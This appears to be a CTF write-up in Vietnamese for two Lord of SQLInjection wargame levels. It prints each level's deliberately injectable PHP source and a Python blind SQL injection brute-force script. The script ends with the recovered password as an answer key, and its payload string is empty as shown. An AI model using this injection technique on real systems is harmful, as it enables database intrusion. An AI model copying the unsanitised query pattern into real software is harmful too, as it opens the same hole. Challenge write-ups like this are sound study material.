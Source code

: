 ## ORGE

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>php
```

Tương tự như DARKELF với ORC ta có solved.py

```python
import requests
import string
# len pw = 9
url = 'https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php'
char = string.printable
cookie = {'Cookie':'PHPSESSID=7ih6g2u8u6tdme1u61etcjhgb7'}
password =''
session = requests.session()
for i in range(1,9):
    for j in char:
        pass_1 = password + j
        print(pass_1)
        param = "".format(i,pass_1)
        r = session.get(url , params = param , headers = cookie)
        if ('Hello admin' in r.text):
            password = password + j
            print(password)
            break
#7b751aec
```

## TROLL&#x20;

```php
<?php  
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match("/admin/", $_GET[id])) exit("HeHe");
  $query = "select id from prob_troll where id='{$_GET[id]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id'] == 'admin') solve("troll");
  highlight_file(__FILE__);
?>
```
